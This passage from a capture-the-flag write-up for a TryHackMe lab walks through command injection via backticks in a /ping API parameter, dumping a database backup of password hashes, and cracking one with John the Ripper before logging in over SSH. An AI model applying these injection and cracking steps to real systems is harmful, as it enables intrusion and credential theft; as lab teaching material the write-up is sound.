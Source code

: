 What this function does is, it calls on the `/ping` path of the API that is on port `8081` and pings the ip address that is given to the `ip` parameter.

We can also notice that this function is being called every now and then.

![](/assets/images/thm-ultratech/screenshot_4.png)

Since the parameter accepts not just the value of `window.location.hostname` but also other values which can be vulnerable to code injection or remote code execution.

I played around the potential values until I came across with escaping the commands using backticks (\`). Using **http://10.10.219.52:8081/ping?ip=\`ls\`** we managed to see an interesting database backup file.

```
ping: u****.db.******: Name or service not known 
```

Now that we can execute commands, we can check the content of this database backup using **http://10.10.219.52:8081/ping?ip=\`cat u\*\*\*\*.db.\*\*\*\*\*\*\`**.

```
ping: ) ���(Mr00tf357a0c5279*********************)Madmin0d0ea5111e3*********************: Parameter string not correctly encoded 
```

We can see the hashes of both `r00t` and `admin` users. Save the hashes in a new file then use John The Ripper to crack the hash.
```
$ john root_password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]          (?)
1g 0:00:00:00 DONE (2021-06-14 18:45) 2.702g/s 14173Kp/s 14173Kc/s 14173KC/s n102983..n0valyf
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

Now that we have the plain password of the user `r00t`, we can now login using SSH.

## Foothold & getting root via Docker
And we're in!

```
$ id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```
